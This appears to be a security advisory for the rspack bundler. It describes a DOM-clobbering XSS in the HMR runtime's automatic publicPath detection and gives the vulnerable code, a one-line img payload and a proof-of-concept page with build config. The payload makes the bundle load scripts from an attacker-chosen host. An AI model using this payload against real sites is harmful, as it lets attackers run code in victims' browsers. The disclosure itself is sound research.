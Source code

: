 ## rspack

### Meta

+ Library: rspack
+ Stars: 8.6K
+ Version: v1.0.0-rc.0
+ Fingerprint: N/A
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ CVE: CVE-2024-XXXXX
+ Foundby: TheHulk

### Library

https://github.com/web-infra-dev/rspack

### Vulnerable Code Snippet

`crates/rspack_plugin_hmr/src/runtime/hot_module_replacement.js`
```javascript
(()=>{
        t.g.importScripts && (e = t.g.location + "");
        var e, r = t.g.document;
        if (!e && r && (r.currentScript && (e = r.currentScript.src),
        !e)) {
            var n = r.getElementsByTagName("script");
            if (n.length) {
                for (var o = n.length - 1; o > -1 && (!e || !/^http(s?):/.test(e)); )
                    e = n[o--].src
            }
        }
        if (!e)
            throw Error("Automatic publicPath is not supported in this browser");
        e = e.replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/"),
        t.p = e
    }
    )()
```

## PoC


```html
<!--Library-->
<script defer src="./dist/main.bundle.js"></script>
<!--Library-->

<!--Payload-->
<div id="root"><img name="currentScript" src="http://localhost:9999">
<!--Payload-->
```

```

The `rspack.config.js` to generate the bundle can be found below. 

```
const rspack = require('@rspack/core');
const path = require('path');
/** @type {import('@rspack/cli').Configuration} */
module.exports = {
  entry: {
    main: './src/index.js',
  },
  output: {
    path: path.resolve(__dirname, 'dist'),
    filename: '[name].bundle.js',
    chunkFilename: '[id].bundle.js',
    publicPath: 'auto',
  },
  plugins: [
    new rspack.HtmlRspackPlugin({
      template: './poc.html',
    }),
  ],
  optimization: {
    splitChunks: {
      chunks: 'all',
    },
  },
};
```
